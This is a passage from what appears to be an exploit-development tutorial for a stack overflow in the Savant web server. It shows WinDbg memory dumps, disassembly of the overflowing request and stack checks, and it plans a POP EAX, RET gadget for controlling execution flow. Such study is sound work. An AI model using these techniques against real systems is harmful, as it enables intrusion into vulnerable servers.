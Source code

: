 ```c
047bea8c  4141412f
047bea90  41414141
047bea94  41414141
047bea98  41414141

0:008> u poi(esp+4)
047bea74 47              inc     edi
047bea75 45              inc     ebp
047bea76 54              push    esp
047bea77 0000            add     byte ptr [eax],al
047bea79 0000            add     byte ptr [eax],al
047bea7b 0000            add     byte ptr [eax],al
047bea7d 0000            add     byte ptr [eax],al
047bea7f 0000            add     byte ptr [eax],al
```

The first instructions do not seem to affect the execution flow or generate any access violations. They are INC operations, and a PUSH instruction that pushes ESP to the stack.  The "00" instructions use the ADD operation, using the memory address of where EAX points. **These instructions could be problematic as they assume that EAX points to a valid memory address.**
Remember that we want to perform the POP, RET operation?
Let's see if the value we want to POP (the top of the stack) is a valid memory address:

```c
0:008> !teb
TEB at 00258000
    ExceptionList:        01a3ff60
    StackBase:            01a40000
    StackLimit:           01a3c000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 00258000
    EnvironmentPointer:   00000000
    ClientId:             00000ec0 . 00000cc0
    RpcHandle:            00000000
    Tls Storage:          004c7520
    PEB Address:          00253000
    LastErrorValue:       10038
    LastStatusValue:      c0000008
    Count Owned Locks:    0
    HardErrorMode:        0
0:008> dds esp
01a3ea1c  01a3fe00 // We are popping this value
01a3ea20  01a3ea74 // We want to return here, address of where our payload is stored
```

The value that we are popping is inside the StackBase and StackLimit addresses, which means that it is inside the stack! As it is a valid address, we will pop it into EAX so that the instructions that use EAX are valid!
We need to find a POP EAX, RET instructions inside the Savant module. Let's see which instructions are:
```c
msf-nasm_shell
nasm > pop eax
00000000  58                pop eax                                                                             
nasm > ret
00000000  C3                ret 
```
